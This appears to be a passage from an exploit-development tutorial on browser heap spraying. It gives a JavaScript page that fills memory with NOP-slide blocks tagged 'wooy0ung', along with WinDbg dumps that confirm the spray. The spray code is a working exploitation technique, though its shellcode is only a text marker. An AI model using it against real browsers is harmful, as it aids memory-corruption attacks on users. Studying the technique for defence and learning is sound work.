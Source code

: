 ```
032dec4c  77 6f 6f 79 30 75 6e 67-00 00 90 90 90 90 90 90  wooy0ung........
032dec5c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
032dec6c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
032dec7c  90 90 90 90 c0 fc fa e9-90 01 28 ff d0 07 00 00  ..........(.....
032dec8c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
032dec9c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0:014> d 0332511c-20
033250fc  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0332510c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0332511c  77 6f 6f 79 30 75 6e 67-00 00 90 90 90 90 90 90  wooy0ung........
0332512c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0332513c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0332514c  90 90 90 90 f2 16 f9 e9-90 01 28 ff d0 07 00 00  ..........(.....
0332515c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0332516c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
```

This script sprays much larger blocks 0x40000 (= 262144 bytes = 0.25 mb) and repeats these blocks 500 times (= 125 mb heap spray)
```
<html>
<body>
<script language='javascript'>

	var Shellcode = unescape('%u6f77%u796f%u7530%u676e');

	var NopSlide = unescape('%u9090%u9090');

	var headersize = 20;
	var slack = headersize + Shellcode.length;

	while(NopSlide.length < slack) NopSlide += NopSlide;
	var filler = NopSlide.substring(0,slack);
	var chunk = NopSlide.substring(0,NopSlide.length - slack);

	while(chunk.length + slack < 0x40000) chunk = chunk + filler;
	var memory = new Array();
	for(i = 0;i<500;i++){ memory[i] = chunk + Shellcode; }

	alert("allocation done");

</script>
</body>
</html>
```

Now, our blocks are comprised of about 99.997% NOP's which makes jumping to them extremely reliable!
```
0:014> s -a 0x00000000 L? 7fffffff "wooy0ung"
169c0014  77 6f 6f 79 30 75 6e 67-00 00 00 00 00 00 00 00  wooy0ung........
16a50014  77 6f 6f 79 30 75 6e 67-00 00 00 00 00 00 00 00  wooy0ung........
16ae0014  77 6f 6f 79 30 75 6e 67-00 00 00 00 00 00 00 00  wooy0ung........
16b70014  77 6f 6f 79 30 75 6e 67-00 00 00 00 00 00 00 00  wooy0ung........
16c00014  77 6f 6f 79 30 75 6e 67-00 00 00 00 00 00 00 00  wooy0ung........
16c90014  77 6f 6f 79 30 75 6e 67-00 00 00 00 00 00 00 00  wooy0ung........
16d20014  77 6f 6f 79 30 75 6e 67-00 00 00 00 00 00 00 00  wooy0ung........
16db0014  77 6f 6f 79 30 75 6e 67-00 00 00 00 00 00 00 00  wooy0ung........
16e40014  77 6f 6f 79 30 75 6e 67-00 00 00 00 00 00 00 00  wooy0ung........
......
```
